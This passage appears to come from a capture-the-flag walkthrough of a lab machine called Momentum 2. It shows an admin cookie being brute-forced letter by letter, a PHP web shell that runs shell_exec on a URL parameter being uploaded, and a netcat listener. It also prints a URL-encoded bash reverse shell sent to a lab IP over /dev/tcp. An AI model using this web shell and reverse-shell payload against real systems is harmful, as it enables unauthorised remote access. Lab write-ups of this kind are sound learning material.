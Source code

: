 ```bash
Content-Type: application/x-php


------WebKitFormBoundaryvvNiH8PdjxlcglI6--
```

Now we send it to the intruder.

Remember that the admin cookie is missing a capital letter, so we are going to fuzz it, testing it letter by letter until it returns 1.

![img](/assets/img/post/momentum2/a.png)

Let's load our payload:

![img](/assets/img/post/momentum2/pay.png)

This will test each letter we add, until we find the correct one, but to get the result we want, we must do the following:

![img](/assets/img/post/momentum2/b.png)

We begin the attack.

![img](/assets/img/post/momentum2/ata.png)

I see that the request with the letter ``R`` was successful, so we added it to the admin cookie.

### Revshell 
We take advantage and add our php code to generate a reverse shell.

```php
<?php 
  echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
?>
```
After sending this request, it returns ``"1"``, so the php file was uploaded successfully.

We go to the ``*/owls*`` directory on the website and here we can see the file.

![img](/assets/img/post/momentum2/owls.png)

We go to our php file and generate the revshell.

We listen:

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

And we launch revshell.

```
http://192.168.1.10/owls/cmd.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.1.7/443%200%3E%261%22
```
### Shell (www-data)
We already have access as www-data.

